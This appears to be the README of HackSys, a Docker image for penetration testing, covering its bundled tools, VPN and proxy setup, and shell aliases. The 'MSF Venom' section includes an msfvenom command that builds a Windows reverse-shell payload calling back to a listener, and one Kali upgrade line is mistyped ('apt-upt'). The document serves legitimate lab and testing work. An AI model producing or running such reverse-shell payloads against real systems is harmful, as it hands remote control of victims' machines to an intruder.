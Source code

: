 [![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/antfie/HackSys/blob/master/LICENSE)

# HackSys

HackSys is a Docker image Anthony uses for penetration testing. It's main features are:

* Alpine based
* <3GB
* Security tools installed:
  * nmap
  * [sqlmap](http://sqlmap.org/)
  * [impacket](https://github.com/SecureAuthCorp/impacket)
  * SecLists
  * searchsploit
  * [evil-winrm](https://github.com/Hackplayers/evil-winrm)
  * [CeWL](https://digi.ninja/projects/cewl.php)
  * wfuzz
* Development tools installed:
  * Python 2 and 3, with common pip modules (requests colorama beautifulsoup4 scrapy)
  * Go
  * Java
  * Ruby
  * PHP
* Easy to add in new capabilities via `apk add`
* Has a built-in SOCKS5 proxy (via SSH tunnel)
* Zsh

Example prompt:

```
┌──(🔒HackSys@10.10.10.10)-[/app]
└─#
```

## Running

First pull down the latest container:

```
docker pull antfie/hacksys
```

### VPN

Ensure there is a single openVPN configuration file within the curreent directory and run the main VPN container with this:

```
docker run --rm -it -v $PWD/`ls *.ovpn`:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 127.0.0.1:9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/hacksys vpn
```

### SOCKS5 Proxy (For Burp)

```
docker run --rm -it --network=container:vpn --name proxy --entrypoint proxy antfie/hacksys
```

### Port Forward

To port forward for example RDP (3389) from 192.168.162.120:

```
docker run --rm -it --network=container:vpn --entrypoint fwd -e FWD_TO=192.168.162.120:3389 antfie/hacksys
```

### General Host

Use this command for most activities:

```
docker run --rm -it --network=container:vpn -v $PWD:/app antfie/hacksys
```

To mount stuff e.g. NFS shares you will need to add this parameter `--cap-add SYS_ADMIN`.

### Other Tools

It's easy to attach other tools to the VPN container to make use of the VPN connection.

#### Metasploit

```
docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework
```

#### MSF Venom

```
docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework
```

To use MSF Venom:

```
./msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4189 -f csharp > /app/x
```

#### Kali

```
docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling
```

You may want to upgrade with:

```
apt-get update && apt-upt install -y kali-linux-default
```

#### Parrot

```
docker run --rm -it --network=container:vpn -v $PWD:/app parrotsec/security
```

You may want to upgrade with:

```
apt-get update && apt-get install -y parrot-tools
```

## Building

```
docker pull alpine
docker build -t antfie/hacksys .
```

## Useful Shell Aliases

```zsh
alias hsv='docker run --rm -it -v $PWD/`ls *.ovpn`:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 127.0.0.1:9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/hacksys vpn'
alias hsp='docker run --rm -it --network=container:vpn --name proxy --entrypoint proxy antfie/hacksys'
alias hs='docker run --rm -it --network=container:vpn -v $PWD:/app antfie/hacksys'
alias hsm='docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework'
alias hsmv='docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework'
alias hsk='docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling'
alias hsps='docker run --rm -it --network=container:vpn -v $PWD:/app parrotsec/security'
```
